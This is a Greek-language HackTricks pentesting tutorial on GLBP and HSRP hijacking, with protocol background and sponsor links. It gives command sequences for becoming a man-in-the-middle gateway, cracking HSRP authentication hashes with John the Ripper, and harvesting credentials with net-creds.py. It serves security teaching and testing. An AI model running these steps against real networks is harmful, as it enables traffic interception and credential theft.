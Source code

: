 # Επιθέσεις GLBP & HSRP

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Επισκόπηση Απάτης FHRP Hijacking

### Εισαγωγή στο FHRP
Το FHRP σχεδιάστηκε για να παρέχει ανθεκτικότητα δικτύου με τη συγχώνευση πολλαπλών δρομολογητών σε μια μοναδική εικονική μονάδα, βελτιώνοντας έτσι τη διανομή φορτίου και την ανοχή σε βλάβες. Η Cisco Systems εισήγαγε πρωτόκολλα όπως το GLBP και το HSRP σε αυτή τη σουίτα.

### Εισαγωγή στο Πρωτόκολλο GLBP
Η δημιουργία της Cisco, το GLBP, λειτουργεί στο στοίβα TCP/IP, χρησιμοποιώντας UDP στη θύρα 3222 για επικοινωνία. Οι δρομολογητές σε μια ομάδα GLBP ανταλλάσσουν πακέτα "hello" σε διαστήματα 3 δευτερολέπτων. Αν ένας δρομολογητής αποτύχει να στείλει αυτά τα πακέτα για 10 δευτερόλεπτα, υποθέτεται ότι είναι εκτός λειτουργίας. Ωστόσο, αυτοί οι χρονομετρητές δεν είναι σταθεροί και μπορούν να τροποποιηθούν.

### Λειτουργίες και Διανομή Φορτίου του GLBP
Το GLBP ξεχωρίζει επιτρέποντας τη διανομή φορτίου σε δρομολογητές χρησιμοποιώντας ένα μοναδικό εικονικό IP σε συνδυασμό με πολλές εικονικές MAC διευθύνσεις. Σε μια ομάδα GLBP, κάθε δρομολογητής συμμετέχει στην προώθηση πακέτων. Αντίθετα με το HSRP/VRRP, το GLBP προσφέρει γνήσια ισορροπία φορτίου μέσω διαφόρων μηχανισμών:

- **Ισορροπία Φορτίου Εξαρτημένη από τον Χρήστη:** Διατηρεί σταθερή ανάθεση διεύθυνσης MAC AVF σε έναν υπολογιστή, το οποίο είναι ουσιώδες για σταθερές ρυθμίσεις NAT.
- **Ισορροπία Φορτίου Round-Robin:** Η προεπιλεγμένη προσέγγιση, εναλλάσσει την ανάθεση διεύθυνσης MAC AVF μεταξύ των αιτούντων υπολογιστών.
- **Ισορροπία Φορτίου Με Βάρη Round-Robin:** Διανέμει το φορτίο με βάση τις προκαθορισμένες μετρικές "Βάρος".

### Κύρια Στοιχεία και Ορολογίες στο GLBP
- **AVG (Ενεργή Εικονική Πύλη):** Ο κύριος δρομολογητής, υπεύθυνος για την ανάθεση διευθύνσεων MAC σε δρομολογητές ομότιμους.
- **AVF (Ενεργός Εικονικός Προωθητής):** Ένας δρομολογητής που έχει οριστεί για τη διαχείριση της κίνησης στο δίκτυο.
- **Προτεραιότητα GLBP:** Μετρική που καθορίζει τον AVG, ξεκινώντας από προεπιλεγμένη τιμή 100 και κυμαίνεται μεταξύ 1 και 255.
- **Βάρος GLBP:** Αντικατοπτρίζει το τρέχον φορτίο σε ένα δρομολογητή, ρυθμίσιμο είτε χειροκίνητα είτε μέσω Ανίχνευσης Αντικειμένου.
- **Εικονική Διεύθυνση IP GLBP:** Λειτουργεί ως προεπιλεγμένη πύλη για όλες τις συνδεδεμένες συσκευές.

Για τις αλληλεπιδράσεις, το GLBP χρησιμοποιεί την ειδική διεύθυνση πολυεκπομπής 224.0.0.102 και τη θύρα UDP 3222. Οι δρομολογητές μεταδίδουν πακέτα "hello" σε διαστήματα 3 δευτερολέπτων και θεωρούνται μη λειτουργικοί αν χάσουν ένα πακέτο για διάρκεια 10 δευτερολέπτων.

### Μηχανισμός Επίθεσης GLBP
Ένας επιτιθέμενος μπορεί να γίνει ο κύριος δρομολογητής αποστέλλοντας ένα πακέτο GLBP με τη μεγαλύτερη τιμή προτεραιότητας (255). Αυτό μπορεί να οδηγήσει σε επιθέσεις DoS ή MITM, επιτρέποντας την παρεμπόδιση ή την ανακατεύθυνση της κίνησης.

### Εκτέλεση Επίθεσης GLBP με το Loki
Το [Loki](https://github.com/raizo62/loki_on_kali) μπορεί να εκτελέσει μια επίθεση GLBP με την ενσωμάτωση ενός πακέτου με τιμή προτεραιότητας και βάρος που έχει οριστεί σε 255. Οι προεπιθετικές ενέργειες περιλαμβάνουν τη συλλογή πληροφοριών όπως η εικονική διεύθυνση IP, η παρουσία πιστοποίησης και οι τιμές προτεραιότητας του δρομολογητή χρησιμοποιώντας εργαλεία όπως το Wireshark.

Βήματα Επίθεσης:
1. Αλλαγή σε προωθητική λειτουργία και ενεργοποίηση προώθησης IP.
2. Αναγνώριση του στόχου δρομολογητή και ανάκτηση της IP του.
3. Δημιουργία ενός Ανιδιότιμου ARP.
4. Ενσωμάτωση ενός κακόβουλου πακέτου GLBP, προσωποποιώντας τον AVG.
5. Ανάθεση δευτερεύουσας διεύθυνσης IP στη διεπαφή δικτύου του επιτιθέμενου, αντικατοπτρίζοντας την εικονική διεύθυνση IP του GLBP.
6. Εφαρμογή SNAT για πλήρη ορατότητα της κίνησης.
7. Προσαρμογή της δρομολόγησης για να διασφαλιστεί η συνεχής πρόσβαση στο διαδίκτυο μέσω του αρχικού δρομολογητή AVG.

Ακολουθώντας αυτά τα βήματα, ο επιτιθέμενος τοποθετείται ως "άνθρωπος στη μέση", ικανός να παρεμβαίνει και να αναλύει την κίνηση του δικτύου, συμπεριλαμβανομένων μη κρυπτογραφημένων ή ευαίσθητων δεδομένων.

Για επίδειξη, εδώ υπάρχουν τα απαιτούμενα αποσπάσματα εντολών:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Παθητική Εξήγηση της Απαγωγής του HSRP με Λεπτομέρειες Εντολών

#### Επισκόπηση του HSRP (Hot Standby Router/Redundancy Protocol)
Το HSRP είναι ένα πρωτόκολλο που ανήκει στην Cisco σχεδιασμένο για την αντιγραφή ασφάλειας της πύλης δικτύου. Επιτρέπει τη διαμόρφωση πολλαπλών φυσικών δρομολογητών σε μια μονάδα με ένα κοινό διεύθυνση IP. Αυτή η λογική μονάδα διαχειρίζεται από έναν κύριο δρομολογητή που είναι υπεύθυνος για την κατεύθυνση της κίνησης. Αντίθετα με το GLBP, το οποίο χρησιμοποιεί μετρήσεις όπως προτεραιότητα και βάρος για την ισορροπία φορτίου, το HSRP βασίζεται σε έναν μόνο ενεργό δρομολογητή για τη διαχείριση της κίνησης.

#### Ρόλοι και Ορολογία στο HSRP
- **Ενεργός Δρομολογητής HSRP**: Η συσκευή που λειτουργεί ως πύλη, διαχειρίζεται τη ροή της κίνησης.
- **Δευτερεύων Δρομολογητής HSRP**: Ένας εφεδρικός δρομολογητής, έτοιμος να αναλάβει τον ρόλο αν ο ενεργός δρομολογητής αποτύχει.
- **Ομάδα HSRP**: Ένα σύνολο δρομολογητών που συνεργάζονται για το σχηματισμό ενός μοναδικού εικονικού δρομολογητή ανθεκτικού.
- **Διεύθυνση MAC HSRP**: Μια εικονική διεύθυνση MAC που ανατίθεται στον λογικό δρομολογητή στη διάταξη HSRP.
- **Εικονική Διεύθυνση IP HSRP**: Η εικονική διεύθυνση IP της ομάδας HSRP, λειτουργώντας ως η προεπιλεγμένη πύλη για τις συνδεδεμένες συσκευές.

#### Εκδόσεις HSRP
Το HSRP έρχεται σε δύο εκδόσεις, HSRPv1 και HSRPv2, που διαφέρουν κυρίως στη χωρητικότητα ομάδας, στη χρήση πολυδιανομής IP και στη δομή της εικονικής διεύθυνσης MAC. Το πρωτόκολλο χρησιμοποιεί συγκεκριμένες διευθύνσεις IP πολυδιανομής για την ανταλλαγή πληροφοριών υπηρεσίας, με πακέτα Hello που στέλνονται κάθε 3 δευτερόλεπτα. Ένας δρομολογητής θεωρείται ανενεργός αν δεν λάβει κανένα πακέτο εντός ενός χρονικού διαστήματος 10 δευτερολέπτων.

#### Μηχανισμός Επίθεσης HSRP
Οι επιθέσεις HSRP περιλαμβάνουν τη λήψη με τη βία του ρόλου του Ενεργού Δρομολογητή με την εισαγωγή μέγιστης τιμής προτεραιότητας. Αυτό μπορεί να οδηγήσει σε επίθεση Man-In-The-Middle (MITM). Οι βασικές βήματα πριν από την επίθεση περιλαμβάνουν τη συλλογή δεδομένων σχετικά με τη διάταξη του HSRP, το οποίο μπορεί να γίνει χρησιμοποιώντας το Wireshark για ανάλυση της κίνησης.

#### Βήματα για την Παράκαμψη Πιστοποίησης HSRP
1. Αποθηκεύστε την κίνηση δικτύου που περιέχει δεδομένα HSRP ως αρχείο .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Εξαγάγετε τις κατακερματισμένες τιμές MD5 από το αρχείο .pcap χρησιμοποιώντας το hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Κατακερματίστε τις τιμές MD5 χρησιμοποιώντας το John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Εκτέλεση Εισαγωγής HSRP με το Loki**

1. Εκκινήστε το Loki για την αναγνώριση των διαφημίσεων HSRP.
2. Ορίστε τη διεπαφή δικτύου σε λειτουργία promiscuous και ενεργοποιήστε την προώθηση IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Χρησιμοποιήστε το Loki για να στοχεύσετε τον συγκεκριμένο δρομολογητή, εισαγάγετε τον κατακερματισμένο κωδικό HSRP και πραγματοποιήστε τις απαραίτητες ρυθμίσεις για να υποκαταστήσετε τον Ενεργό Δρομολογητή.
4. Αφού αποκτήσετε τον ρόλο του Ενεργού Δρομολογητή, ρυθμίστε τη διεπαφή δικτύου και τους πίνακες IP για να παρεμβάλλετε τη νόμιμη κίνηση.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Τροποποιήστε τον πίνακα δρομολόγησης για να καθοδηγεί την κίνηση μέσω του προηγούμενου Ενεργού Δρομολογητή.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Χρησιμοποιήστε το net-creds.py ή ένα παρόμοιο εργαλείο για να αιχμαλωτίσετε διαπιστευτήρια από την παρεμβαλλόμενη κίνηση.
```shell
sudo python2 net-creds.py -i eth0
```

Η εκτέλεση αυτών των βημάτων τοποθετεί τον επιτιθέμενο σε μια θέση για να αιχμαλωτίσει και να χειρίζεται την κίνηση, παρόμοια με τη διαδικασία για την απαγωγή του GLBP. Αυτό υπογραμμίζει την ευπάθεια σε πρωτόκολλα αντιγραφής ασφάλειας όπως το HSRP και την ανάγκη για ανθεκτικά μέτρα ασφαλείας.
